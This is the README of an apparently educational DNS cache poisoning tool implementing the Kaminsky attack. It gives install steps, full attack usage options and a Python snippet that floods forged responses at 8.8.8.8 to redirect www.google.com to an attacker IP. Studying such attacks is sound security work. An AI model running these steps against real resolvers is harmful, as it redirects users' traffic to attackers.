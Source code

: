 # DNS Poisoning Tool
A tool to perform DNS cache poisoning against vulnerable server.

![Image](docs/dnspoisoning_screen_2.png)

Both attack methodology is widely described here: [Kaminsky Attack](http://unixwiz.net/techtips/iguide-kaminsky-dns-vuln.html)

A detailed software documentation can be found [here](https://gr3yc4t.github.io/dns-poisoning-tool/)

**WARNING**: This code is intended to be use only in the contex of a particular assignment. If you want to reuse some of the functionalities refer to the [modules section](#modules)

## Requirements
* Scapy (For packet crafting) `pip install scapy`
* Blessing (For coloured terminal) `pip install blessings`
* DNS Python (For initial DNS query)  `pip install dnspython`

Inline requirements installation command pip install:

```pip install scapy blessings dnspython```

Otherwise simply use the provided requirements file

```pip install -r requirements.txt```

## Usage
```
usage: main.py [-h] -t DOMAIN -a ATTACKER_IP -v VICTIM_DNS_IP
               [-bs BAD_SERVER_IP] [-bp BAD_SERVER_PORT] -bd BAD_DOMAIN
               [-ns NS_SERVER] [-i INTERFACE] [-at {NORMAL,DAN}]
               [-m {NORMAL,FAST}] [-vm VICTIM_MAC] [-si SECRET_IP]
               [-sp SECRET_PORT] [-nc] [-vb {1,2,3,4}]

DNS Poisoning Attack Tool

optional arguments:
  -h, --help            show this help message and exit
  -t DOMAIN, --target-domain DOMAIN
                        The target domain to spoof
  -a ATTACKER_IP, --attacker-ip ATTACKER_IP
                        Attacker IP address
  -v VICTIM_DNS_IP, --victim-dns-ip VICTIM_DNS_IP
                        The victim DNS IP address
  -bs BAD_SERVER_IP, --bad-server-ip BAD_SERVER_IP
                        The Bad Guy DNS server IP
  -bp BAD_SERVER_PORT, --bad-server-port BAD_SERVER_PORT
                        The Bad Guy DNS server port
  -bd BAD_DOMAIN, --bad-domain BAD_DOMAIN
                        The domain belonging to the attacker controlled zone
  -ns NS_SERVER, --ns-server NS_SERVER
                        The victim authoritative server
  -i INTERFACE, --interface INTERFACE
                        The Network Card interface to use
  -at {NORMAL,DAN}, --attack-type {NORMAL,DAN}
                        The type of attack to perform
  -m {NORMAL,FAST}, --mode {NORMAL,FAST}
                        Mode to use
  -vm VICTIM_MAC, --victim-mac VICTIM_MAC
                        The victim MAC address
  -si SECRET_IP, --secret-ip SECRET_IP
                        IP to bind for the secret fetcher
  -sp SECRET_PORT, --secret-port SECRET_PORT
                        Port to bind for the secret fetcher
  -nc, --no-colors      Suppress coloured terminal output
  -vb {1,2,3,4}, --verbosity {1,2,3,4}
                        Verbosity level
 ```
## Features
The tool support two version of the attack that can be specified with the related parameter
* Classical poisoning ([Shenanigans Version 1](http://unixwiz.net/techtips/iguide-kaminsky-dns-vuln.html#shenanigansv1))
* Dan's Shenanigans ([Dan's Version](http://unixwiz.net/techtips/iguide-kaminsky-dns-vuln.html#shenanigansv2))

In addition two modes are available for flooding
* **Normal Flooding** - which uses IP layer
* **Faster Flooding** - which uses Ethernet layer

When "*faster flooding*" is used, both victim MAC Address and a network interface must be supplied.

### <a id="modules"></a> Modules
The code is developed in a modular way in order to be implemented in other tools. An extensive class documentation can be found [here](https://gr3yc4t.github.io/dns-poisoning-tool/html/annotated.html).
For example the following code starts a flood of DNS crafted response against the server at "8.8.8.8" in order to spoof the google domain and redirect users to the attacker IP (66.66.66.66):
```python 
import DNSPoisoning

poisoning = DNSPoisoning('8.8.8.8', 'www.google.com', '66.66.66.66')
poisoning.start_flooding()
```

### Bugs
When runninng in faster mode, a single CTRL+C signal is not sufficient to stop the execution due to some thread/signal handler bug. Therefore to completely stop the tool is required to hold CTRL+C for few seconds until the terminate the application.